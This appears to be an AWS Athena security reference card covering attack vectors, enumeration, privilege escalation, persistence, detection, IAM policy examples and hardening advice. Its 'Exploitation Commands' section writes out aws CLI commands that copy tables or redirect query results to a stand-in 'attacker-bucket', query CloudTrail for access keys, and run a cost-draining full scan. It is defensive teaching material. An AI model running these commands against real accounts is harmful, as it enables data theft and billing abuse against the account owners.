

#  AWS Athena Security



> **Category**: SQL QUERY SERVICE

Athena is a serverless query service that analyzes data in S3 using SQL. Attackers exploit Athena to query massive datasets in data lakes, access CloudTrail logs for reconnaissance, and exfiltrate sensitive data through query results stored in S3.

## Quick Stats

| Data Exposure Risk | Query Scale | Familiar Interface | Cost Attack Vector |
| --- | --- | --- | --- |
| **HIGH** | **PB+** | **SQL** | **$5/TB** |

## Service Overview

### Data Lake Querying

Athena queries data directly in S3 using standard SQL. Supports CSV, JSON, Parquet, ORC, and Avro formats. Uses the Glue Data Catalog for table definitions and schema discovery. Federated queries extend to RDS, DynamoDB, and external sources.

> Attack note: A single Athena query can scan petabytes of data in S3. If the query role has broad S3 access, the entire data lake is exposed.

### Workgroups & Results

Workgroups isolate queries, control costs, and enforce settings. Query results are stored in S3 output locations. If EnforceWorkGroupConfiguration is disabled, users can override the output location to attacker-controlled buckets.

> Attack note: Query results in S3 contain the full output of every query. Historical results often persist indefinitely with sensitive data.

## Security Risk Assessment

`████████░░` **8.0/10** (CRITICAL)

Athena provides SQL access to potentially petabytes of data in S3. Query results are stored in S3, creating exfiltration opportunities. Access to CloudTrail tables enables powerful reconnaissance.

## ⚔️ Attack Vectors

### SQL Query Abuse

- Direct S3 data lake queries via SQL
- CloudTrail log analysis for recon
- Query result exfiltration to attacker S3
- Federated query abuse across data sources

### Infrastructure Exploitation

- Workgroup configuration override
- Prepared statement injection
- CTAS to copy data to attacker bucket
- Data catalog manipulation

## ⚠️ Misconfigurations

### Access Issues

- Overly permissive S3 data access
- No workgroup data limits (BytesScannedCutoff)
- Broad Data Catalog access
- EnforceWorkGroupConfiguration disabled

### Data Protection Gaps

- Unencrypted query results in S3
- Public or shared result bucket
- Missing query audit logs
- No Lake Formation integration

## 🔍 Enumeration

**List Workgroups**
```bash
aws athena list-work-groups
```

**List Databases**
```bash
aws glue get-databases
```

**List Tables**
```bash
aws glue get-tables --database-name default
```

**List Query History**
```bash
aws athena list-query-executions --work-group primary
```

## 📈 Privilege Escalation

### Data-Based Escalation

- Query CloudTrail for admin credentials
- Extract IAM keys from application logs
- Find secrets in configuration tables
- Discover service account credentials

### Query-Based Exploitation

- CTAS to create external tables in attacker S3
- Federated queries to access RDS/DynamoDB
- Cross-account queries via data catalogs
- UDF exploitation for code execution

> **Key insight:** Athena queries run with the caller's IAM permissions against S3. If the caller has s3:GetObject on sensitive buckets, Athena becomes a SQL interface to exfiltrate that data at scale.

## 🔗 Persistence

### Query-Based Persistence

- Named queries saved for repeated exfiltration
- Saved CTAS queries for ongoing data copy
- Workgroup with attacker-controlled output location
- Prepared statements for future exploitation

### Infrastructure Persistence

- Rogue data catalog pointing to attacker S3
- Federated data source to attacker database
- Lambda UDF calling back to attacker
- Scheduled queries via EventBridge + Athena

> **Tool reference:** CloudFox identifies Athena workgroups and their output locations. Pacu module athena__enum discovers all databases, tables, and recent query history for data discovery.

## 🛡️ Detection

### CloudTrail Events

- StartQueryExecution (bulk queries)
- GetQueryResults (data retrieval)
- CreateDataCatalog (new catalog)
- CreateWorkGroup (new workgroup)

### Behavioral Indicators

- Unusual query volume or data scanned
- Queries against CloudTrail tables
- New workgroups with external output locations
- Federated queries to unknown sources

## Exploitation Commands

**Query CloudTrail for Credentials**
```bash
aws athena start-query-execution --query-string "SELECT useridentity.accesskeyid, useridentity.arn FROM cloudtrail_logs WHERE eventname='CreateAccessKey'" --work-group primary
```

**CTAS to Attacker Bucket**
```bash
aws athena start-query-execution --query-string "CREATE TABLE exfil WITH (external_location='s3://attacker-bucket/loot/') AS SELECT * FROM customer_data" --work-group primary
```

**Override Result Location**
```bash
aws athena start-query-execution --query-string "SELECT * FROM sensitive_table" --result-configuration OutputLocation=s3://attacker-bucket/results/
```

**Enumerate All Databases**
```bash
aws athena start-query-execution --query-string 'SHOW DATABASES' --work-group primary
```

**Federated Query to RDS**
```bash
aws athena start-query-execution --query-string "SELECT * FROM rds_catalog.mydb.users" --work-group primary
```

**Cost-Based DoS (Full Scan)**
```bash
aws athena start-query-execution --query-string "SELECT * FROM massive_table" --work-group primary
```

## Policy Examples

### ❌ Dangerous - Full Athena + S3 Access

```json
{
  "Effect": "Allow",
  "Action": [
    "athena:*",
    "s3:*",
    "glue:*"
  ],
  "Resource": "*"
}
```

*Full Athena, S3, and Glue access enables complete data lake exfiltration via SQL*

### ❌ Dangerous - Result Location Override

```json
{
  "Effect": "Allow",
  "Action": [
    "athena:StartQueryExecution",
    "s3:PutObject"
  ],
  "Resource": "*"
}
// No EnforceWorkGroupConfiguration = attacker
// controls where results are written
```

*Without enforced workgroup config, query results can be redirected to attacker-owned S3*

### ✅ Secure - Scoped Workgroup Access

```json
{
  "Effect": "Allow",
  "Action": [
    "athena:StartQueryExecution",
    "athena:GetQueryResults"
  ],
  "Resource": "arn:aws:athena:*:*:workgroup/analytics",
  "Condition": {
    "StringEquals": {
      "athena:workgroup": "analytics"
    }
  }
}
```

*Limited to specific workgroup with enforced configuration*

### ✅ Secure - Lake Formation Column-Level

```json
{
  "Effect": "Allow",
  "Action": [
    "athena:StartQueryExecution",
    "lakeformation:GetDataAccess"
  ],
  "Resource": "*"
}
// Lake Formation grants fine-grained
// column and row level access separately
```

*Lake Formation controls what data Athena can actually see at column/row level*

## Defense Recommendations

### 🔒 Enforce Workgroup Config

Enable EnforceWorkGroupConfiguration to prevent result location override.

```bash
EnforceWorkGroupConfiguration: true\nPublishCloudWatchMetricsEnabled: true
```

### 🔐 Encrypt Query Results

Use SSE-KMS encryption for query results in S3.

```bash
EncryptionOption: SSE_KMS\nKmsKey: arn:aws:kms:us-east-1:123:key/xxx
```

### 💰 Workgroup Data Limits

Set BytesScannedCutoffPerQuery to prevent massive scans and cost attacks.

```bash
BytesScannedCutoffPerQuery: 10737418240\n# 10 GB limit per query
```

### 📊 Lake Formation Integration

Use Lake Formation for fine-grained column and row-level access control on data.

```bash
aws lakeformation grant-permissions \\\n  --principal DataLakePrincipalIdentifier=arn:... \\\n  --permissions SELECT --resource Table=...
```

### 👁️ Audit Query History

Monitor query patterns and alert on sensitive table access or unusual data volumes.

```bash
CloudWatch Alarm on BytesScanned > threshold\nAlert on queries targeting cloudtrail_logs
```

### 🗂️ Separate Workgroups

Isolate sensitive data access in dedicated workgroups with strict IAM policies.

```bash
aws athena create-work-group \\\n  --name sensitive-only \\\n  --configuration EnforceWorkGroupConfiguration=true
```

---

*AWS Athena Security Card*

*Always obtain proper authorization before testing*
